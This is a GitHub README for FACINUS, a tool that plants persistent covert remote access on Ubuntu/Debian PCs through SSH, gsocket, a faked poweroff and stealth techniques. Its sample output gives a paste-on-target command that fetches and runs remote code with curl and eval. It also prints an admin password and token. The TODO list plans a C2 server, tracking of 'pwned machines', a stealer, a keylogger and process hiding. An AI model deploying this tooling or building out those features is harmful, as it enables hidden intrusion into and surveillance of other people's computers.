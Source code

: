 ## FACINUS - set a 24/7 access on a Ubuntu/Debian PC you have physical access to with [gsocket](https://www.gsocket.io/) and other features

This script is setting up an Apache server on your Arch based linux distro and targets Ubuntu/Debian.

## Features
- **SSH**: Set up SSH server on target to quickly access from internal network.
- **WOL**: Check for wake-on-lan availability, to be able to wake any other pc's on network which ran the script.
- **24/7**: Fake a poweroff to keep the PC running 24/7.
- **Log**: Logs everything on your server.
- **gsocket**: Set up a gsocket service on target to access the server from anywhere.
- **Stealth**: Simple evading techniques to avoid detection.

## Installation
For now this script doesn't have checks for other distros than Arch based with pacman package manager. I'll add more checks later.
You just have to run the install script that will setup everything automatically for you.
```
sudo ./install
```

## Help
You can run ./install --help to see available options.
```
./install --help
FACINUS Installation Script
Usage: ./install [options]

Options:
  --no-root            Install without root privileges (limited functionality)
  --no-services        Don't install system services
  --no-wol             Don't configure Wake-on-LAN
  --no-fake-poweroff   Don't install fake poweroff feature
  --no-gsocket         Don't install gsocket for remote access
  --no-stealth         Don't apply stealth techniques
  --light-theme        Use light theme for web interface
  --server-ip IP       Specify server IP address
  --server-port PORT   Specify server port (default: 80)
  --server-root PATH   Specify server root directory
  --verbose            Show verbose output
  --help               Show this help message
```

## Web Interface
After running the script you'll see something like this:
```
./install
[sudo] password for elleoma: 
Obfuscated script created.
==============================================================
Deployment server setup complete!
==============================================================
Server URL: http://192.168.0.131/deployment
Admin Page: http://192.168.0.131/deployment/admin/admin.php
Admin Password: 2cn2lguMIdx9
Client Setup Command: eval "$(curl -fsSL http://192.168.0.104/deployment/y)"
==============================================================
Secret Token for accessing logs: NTVEYJWTYAk5OolAAKYodaSjPWKaKb4X
==============================================================
```
After accessing url you'll see a simple commands to copy and paste on the target.
On the admin panel you can check the logs and the secrets for gsocket access.

<img src="https://github.com/elleoma/facinus/blob/beta/screenshots/deployment.png"/>
<img src="https://github.com/elleoma/facinus/blob/beta/screenshots/admin.png"/>

## TODO
- [ ] Do fake poweroff for all possible variants for Ubuntu/Debian with gnome.
- [x] Add checks for other distros
- [ ] Make it a c2 server deployment tool
- [ ] Create cli/web tool for viewing pwned machines
- [ ] Add options to make some machine be a subserver which manages powering on/off other machines on the network
- [ ] Add a stealer, keylogger, etc.
- [ ] Obfuscation, process hiding, etc.
- [ ] Ability to install common precompiled binaries on a target without root access.
- [x] Add options to the script (no root, no services, etc.)
- [x] Add a dark theme for the web interface
